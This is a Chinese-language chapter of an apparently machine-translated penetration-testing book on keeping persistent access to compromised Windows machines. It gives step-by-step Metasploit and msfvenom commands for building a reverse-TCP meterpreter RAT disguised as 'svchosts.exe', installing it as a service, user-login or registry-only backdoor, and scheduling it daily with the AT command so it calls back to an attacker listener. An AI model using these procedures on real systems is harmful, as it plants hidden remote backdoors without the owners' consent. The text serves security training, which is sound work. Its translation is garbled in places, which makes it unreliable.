一旦你获得了访问权限并提升了访问级别，你就会想要回来。如果系统使用针对互联网开放端口的漏洞被破坏，那么返回不是一个大问题，除非系统得到修补。您可以随时重用您的漏洞并重新访问内部网络。如果您使用网络钓鱼攻击或浏览器攻击利用系统进行攻击，则当单击链接或从受感染的站点运行浏览器攻击时，您的攻击连接只会发生一次。当以这些方式从工作站攻击用户时，为了返回工作站并绕过防火墙，您需要一些东西来保持访问。如果系统安装在配置正确的防火墙后面，那么在没有任何通向 internet 的端口的情况下，直接访问几乎是不可能的。然而，所有的系统都可以调用互联网，所以这是我们的攻击向量和我们的方式回来。这就是为什么高度安全的网络应该始终是空的，没有物理方式呼叫公共网络。这是长着长尾巴和大耳朵的小型毛茸茸的哺乳动物发挥作用的地方。

# 远程访问工具

**远程访问工具**（**RATs**是一种小程序，可用于呼叫服务器并维持与该服务器的连接，有时称为**命令和控制**服务器，或 CnC。通过服务器的连接，攻击者可以从内部机器访问受害者的内部网络，或者将其用作从攻击者的远程机器攻击网络的轴心。

枢轴是我个人的最爱。有了 pivots，就不需要将工具上传到另一个受害者的机器上，这会在上传过程中触发反病毒软件和其他安全监控。一旦老鼠就位，你现在可以从第一个受害者的机器上转动。此外，上传一个类似 Metasploit 的版本并将其安装到受害者的机器上是不现实的。使用 pivot 无需上传工具：您可以针对内部受害者网络使用系统上安装的工具，就像插入内部网络一样。受害者的机器现在只充当路由器，而您的远程 Kali 机器现在位于内部网络上。Metasploit 内置了一些方便的漂亮枢轴。还请记住，如果网络可以从无线接入点突破，那么您也可以完全访问内部网络，因此无需转向。

如今，任何系统都有成千上万只老鼠，而不仅仅是 Windows。如今，安卓老鼠正被广泛用于破坏手机和平板电脑，并维持对这些设备的访问。我们将使用 Metasploit 的 MSFvenom 工具定制一些老鼠。我发现这些工具工作得最好，其他工具，比如 mimikat，可以通过连接运行。

# Metasploit 的持久性 _exe 模块

我们将首先使用现有的会话，将一个持久的可执行文件加载到系统中，系统将继续调用我们的 multi/handler。因为我们已经有了这个会话，并且它具有系统级访问权限，所以加载它将很容易。要加载模块，请运行以下操作：

```
use post/windows/manage/persistence_exe
```

`persistence_exe`模块的信息如下所示：

```
    msf post(persistence_exe) > info

    Name: Windows Manage Persistent EXE Payload Installer
    Module: post/windows/manage/persistence_exe
    Platform: Windows
    Arch: 
    Rank: Normal

    Provided by:
    Merlyn drforbin Cousins <drforbin6@gmail.com>

    Basic options:
    Name  Current Setting Required Description
    ----  --------------- -------- -----------
    REXENAME default.exe  yes  The name to call exe on remote system
    REXEPATH     yes  The remote executable to use.
    SESSION     yes  The session to run this module on.
    STARTUP USER    yes  Startup type for the persistent payload. (Accepted: USER, SYSTEM, SERVICE)

    Description:
    This Module will upload a executable to a remote host and make it 
    Persistent. It can be installed as USER, SYSTEM, or SERVICE. USER 
    will start on user login, SYSTEM will start on system boot but 
    requires privs. SERVICE will create a new service that will start the payload. Again requires privs.

```

我们看到老鼠的名字被设置在`REXENAME`到`default.exe`之间。如果有人正在审核进程列表，这将被视为一个恶意进程，因此，让我们将其重命名为更隐蔽的进程。早些时候，我们建造了有效载荷`svchosts.exe`。请注意，此名称与已知的正在运行的`svchost`可执行文件非常接近，它将在正常运行的服务器的运行进程中多次出现。名称接近实际的服务名称将使其有点隐蔽性。当我们有一个已知的工作漏洞时，为什么要构建一个新的有效负载？

按如下方式设置模块：

```
set REXENAME svchosts.exe
set REXEPATH /media/root/files/kali2016-2-book/chap8/svchosts.exe
set SESSION 2
set STARTUP SERVICE
show options
exploit
```

我们看到它已上载 RAT，但未能打开系统管理器，系统管理器已回复 RPC 服务器不可用：



在域控制器上，我们可以看到一个应用程序崩溃，桌面上弹出一个警告。当试图偷偷摸摸时，这不是一件好事：



错误表明应用程序 ApacheBench 已崩溃。此计算机上未加载 Apache Web 服务器，因此错误可能来自我们正在使用的 HTTPS 负载。因此，让我们构建另一个有效负载作为 RAT 使用，使用直接 TCP 连接。要从命令行生成有效负载，请运行以下命令：

```
msfvenom -p windows/meterpreter_reverse_tcp --platform windows -f exe -a x86 LHOST=172.16.42.215 LPORT=4444 -o svchosts2.exe

```


我们需要为此有效负载设置一个 multi/handler：

```
use post/windows/manage/persistence_exe
set PAYLOAD windows/meterpreter_reverse_tcp
set LPORT 4444
run -j
```

现在使用以下命令返回到持久性模块：

```
use post/windows/manage/persistence_exe  
```

重置新有效负载的`REXEPATH`：

```
set REXEPATH /media/bo/files/kali2016-2-book/chap8/svchosts2.exe
show options # To check the settings then.
Exploit  
```



正如我们所看到的，这一次，负载确实成功运行并打开了一个新会话。我们还看到，RPC 服务器同样不可用，因此 RAT 没有作为服务加载。因此，RAT 很可能不是作为服务运行的。作为服务运行是最理想的，但是因为它给我们带来了一个问题，让我们将`STARTUP`设置为`USER`。使用此配置，我们必须等待用户再次登录，才能运行漏洞攻击。使用此设置时，最好使用经常使用的帐户。检查事件日志将为您提供有关哪些用户登录以及登录频率的信息。

确保终止上次运行创建的会话，然后更改`STARTUP`设置，如下所示：

```
set STARTUP USER
show options
exploit  
```



成功在这次运行中，模块加载了有效负载并将其设置为自动运行，因此我们应该可以开始了。让我们测试一下结果。当我们运行此漏洞时，我们没有像以前一样重新启动 multi/handler 来捕获有效负载。我们可以看到，没有创建任何会话，即使其他所有内容都显示该漏洞已成功运行。当我们设置并运行处理程序时，我们立即从有效负载获得连接：



让我们检查它是否在下次登录时重新连接。终止系统中的所有会话并注销 RDP 会话。接下来，为下一次登录重新启动 multi/handler：

```
sessions -K # This kills all running sessions.
run -j # This restarts the handler.  
```



当我们使用 RDP 会话重新登录时，我们看到正在运行的处理程序上启动了一个新会话。我们能够与会话交互，并从 MeterMeter 外壳获得系统访问权限：



# 仅 Windows 注册表持久性

Windows 注册表是隐藏恶意代码的好地方。许多恶意软件和间谍软件使用类似的方法来隐藏和运行其有效载荷。注册表的复杂性和注册表的系统访问级别使其成为一个伟大的攻击向量。

我们将在当前正在运行的会话上运行以下模块，并尝试使用系统级访问来运行有效负载。模块信息如下：

```
    msf exploit(registry_persistence) > info

    Name: Windows Registry Only Persistence
    Module: exploit/windows/local/registry_persistence
    Platform: Windows
    Privileged: No
    License: Metasploit Framework License (BSD)
    Rank: Excellent
    Disclosed: 2015-07-01

    Provided by:
    Donny Maasland <donny.maasland@fox-it.com>

    Available targets:
    Id Name
    -- ----
    0 Automatic

    Basic options:
    Name   Current Setting Required Description
    ----   --------------- -------- -----------
    BLOB_REG_KEY     no  The registry key to use for storing the payload blob. (Default: random)
    BLOB_REG_NAME     no  The name to use for storing the payload blob. (Default: random)
    CREATE_RC  true    no  Create a resource file for cleanup
    RUN_NAME      no  The name to use for the 'Run' key. (Default: random)
    SESSION       yes  The session to run this module on.
    SLEEP_TIME  0    no  Amount of time to sleep (in seconds) before executing payload. (Default: 0)
    STARTUP  USER    yes  Startup type for the persistent payload. (Accepted: USER, SYSTEM)

    Payload information:

    Description:
    This module will install a payload that is executed during boot. It 
    will be executed either at user logon or system startup via the 
    registry value in "CurrentVersion\Run" (depending on privilege and 
    selected method). The payload will be installed completely in 
    registry.

```

我们将让模块以默认值运行大多数设置。我们将使用以下命令运行：

*   `set SESSION 4`：设置为当前正在运行的会话
*   `set STARTUP SYSTEM`：这将设置持久有效负载作为系统漏洞运行


看来我们的利用失败了。我们收到一条警告，PowerShell 不可用。该漏洞确实会写入注册表，但请注意，在运行完成时没有启动新会话。这告诉我们，由于找不到 PowerShell，因此我们的运行失败。由于找不到 PowerShell，让我们尝试一种更老的方法，从正在运行的会话的 MeterMeter shell 中添加持久性，并从 VB 脚本中运行该漏洞。

需要记住的是，这种类型的攻击不需要登录，因此在生产系统上，如果不删除，这将是一个打开的后门，如果让另一个攻击者在机器上运行，则可以访问它。

通过从正在运行的 MeterMeter 会话中运行以下命令，可以读取持久性脚本的帮助文件。正如您所看到的，持久性脚本被列为不推荐使用的脚本，但由于较新的后期利用不起作用，因此最好回退到较旧的方法：

```
    sessions -i 4 Interact with the running session.
    run persistence -h To view the help files.

    meterpreter > run persistence -h

    [!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
    [!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
    Meterpreter Script for creating a persistent backdoor on a target host.

    OPTIONS:

    -A  Automatically start a matching exploit/multi/handler to connect to the agent
    -L <opt> Location in target host to write payload to, if none %TEMP% will be used.
    -P <opt> Payload to use, default is windows/meterpreter/reverse_tcp.
    -S  Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T <opt> Alternate executable template to use
    -U  Automatically start the agent when the User logs on
    -X  Automatically start the agent when the system boots
    -h  This help menu
    -i <opt> The interval in seconds between each connection attempt
    -p <opt> The port on which the system running Metasploit is listening
    -r <opt> The IP of the system running Metasploit listening for the connect back  
```

要设置此设置，我们将使用以下设置：

```
run persistence -U -S -i 15 -p 4444 -r 172.16.42.215  
```


哦，好吧；不可用的 RPC 服务再次让我们失望，所以让我们尝试一种更老的方法：`AT`命令。`AT`命令是任务调度器，可以追溯到 NT3.51 时代，并且只能从命令行运行。这也给了它一点隐蔽性，因为使用`AT`调度的任务不会显示在任务调度器的 GUI 版本中。它们是两个独立的应用程序，不共享工作。AT 服务非常类似于 Linux 和 UNIX 上的 Cron。还有一个`AT`调度器也在这些系统上运行。

因此，要从 MeterMeter 转到远程 shell，请运行以下命令：

```
Shell  
```

首先，将有效负载从`Temp`目录移动到`Windows`目录，这样有效负载将在不使用有效负载的完整路径的情况下运行：

```
copy C:\Windows\Temp\server.exe C:\Windows\server.exe  
```

从远程 shell 运行以下命令，以确保计划程序服务正在运行：

```
net start "task scheduler"
at 23:30 /every:M,T,W,TH,F,SA,SU server.exe  
```


请记住在设置时间之前启动 multi/handler。随着时间的推移，我们看到现在有了一个新的正在运行的会话：



# 总结

在本章中，我们学习了如何在本地和远程提升特权。我们已经展示了即使是出错的漏洞利用也是一种学习体验，可以为我们提供有关目标和目标网络的宝贵信息。我们已经学习了几种在攻击系统中保持持久性的方法，以及向用户隐藏这些有效负载的方法。我们已经学会了如何禁用 UAC 并绕过其安全性。

我们已经学习了如何构建有效负载，将其带到受损的系统中，并使用它将我们的权限从普通用户帐户提升到 Windows 系统上的系统级访问权限。我们还学习了如何将此有效负载设置为在被攻击的机器上持久运行，以便稍后可以返回到同一台受损机器。我们还学到了一个宝贵的教训，即如何从试图破坏系统的失败尝试中获得有关系统的知识，并利用这些知识获得对机器的完全访问。失败可以是成功。